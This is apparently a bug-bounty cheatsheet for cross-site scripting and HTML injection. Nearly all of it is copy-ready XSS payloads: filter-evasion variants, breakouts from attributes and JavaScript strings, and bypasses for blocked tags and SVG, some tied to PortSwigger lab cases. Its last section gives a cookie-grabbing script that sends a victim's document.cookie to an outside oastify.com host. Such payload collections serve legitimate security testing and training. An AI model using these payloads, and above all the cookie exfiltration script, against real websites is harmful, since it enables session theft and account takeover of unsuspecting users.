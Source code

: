 #### External source of payloads
https://github.com/payloadbox/xss-payload-list
##### For filter bypass
https://github.com/terjanq/Tiny-XSS-Payloads
## XSS with filter evasion
```
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```
##### XSS Filter Evasion Cheat Sheet
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
### For html Injection
```
<h1>cyborg71</h1>
"><h1>cyborg71</h1>
<a href="https://google.com"></a>
```
# Testing Alert
```js
<script>alert(1337)</script>
><script>alert(1337)</script>
">cyborg71<script>alert(1337)</script>
<svg/ onload=alert(1337)//
<Svg/OnLoad=(confirm)(1337)<!--
<img src=x onerror=alert(1337)>
<iframe src="javascript:alert(1337)">
';alert(1337)//
<custom-tag onmouseover='alert(1337)'>
/?x=y'%09onclick='alert(1337)'%09accessKey='x'
/?'accesskey='x'onclick='alert(1337)
javascript:alert(1337)
y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1337)%3E
```
![Screenshot from 2024-06-22 21-24-55](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/a4b3b27e-3e78-438e-90c1-38f3986f5a79)

![Screenshot from 2024-06-22 21-30-13](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/cd6ea4c0-17df-448a-bc1a-caa4d293ee80)

![Screenshot from 2024-06-22 21-34-37](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/2938507e-12e8-438d-ad7d-d1ec7d65a963)

![Screenshot from 2024-06-22 21-36-45](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/06045884-2e15-4998-bfe6-057cf34dbe92)

![Screenshot from 2024-06-22 21-38-04](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/925458b2-619b-4545-a675-81ee043cd00c)

#### For testing.
```js
"><h1>cyborg.71</h1>
<script onclick="alert(1337)">
<a href="javascript:alert('XSS')">Click me</a>
<img src=https://i.imgflip.com/8uo0t9.jpg>
```
## Angle brackets HTML-encoded bypass
### Reflected XSS into HTML attribute with angle brackets HTML-encoded
Inject ```<xss123>'"``` and see if the angle ```<>``` brackets are encoded with ```&lt;``` and ```&gt;```.
  ![Screenshot from 2024-06-12 22-48-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/4bb3d36b-cef6-49ae-ab0d-a4c6ad9c8553)<br>
If this is the case, you should inject this payloads. 
```js
" onclick="alert(1337)
" autofocus="alert(1337)
" autofocus onfocus="alert(1337)
" onmouseover="alert(1)
```
![Screenshot from 2024-06-22 22-10-29](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5f0c53d6-0489-483d-a82d-373456ee9233)
### Reflected XSS into a JavaScript string with angle brackets HTML encoded
Inject ```<xss123>'"``` and see if your payload encoded in a javascript code.<br>
![Screenshot from 2024-06-13 00-19-30](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/9180969c-2299-4adf-9c4a-a05e97629938)<br>
In this case you should try this payload to braek the code to inject maliciuos payload.
```js
xss';alert(1);'xss
'-alert(1)-'
```
Finally the code will look like this after response.
![Screenshot from 2024-06-23 19-29-18](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5387641e-5ee7-4dca-89a3-e1253a426bc5)
## Tags and Attribute Block Bypass
### Reflected XSS into HTML context with most tags and attributes blocked
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked. Bruteforce for getting allowed tags.
```
"><body onresize=alert(1337)>
```
### Reflected XSS into HTML context with all tags blocked except custom ones
###### Key Note
```tabindex="1"```, ```id="a1"```, ```#a1```
```
<custom-tag tabindex="1" onfocus='alert(1337)' id="a1">#a1
```
### Reflected XSS with some SVG markup allowed
```
"><svg><animatetransform onbegin=alert(1337)></animatetransform></svg>
"><svg><animatetransform onbegin='alert(1337)'></animatetransform></svg>
```
## Reflected XSS in canonical link tag
Make your custom parameter in a url path such as ```https://a.com/?```whoami=cyborg71```.If we can get a canonical link in page source then there might be a xss vulnerability exists.
![Screenshot from 2024-07-01 03-55-35](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/67df34d4-e22f-49cf-a1f0-786a9113b316) 
#### For cookie grabbing
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
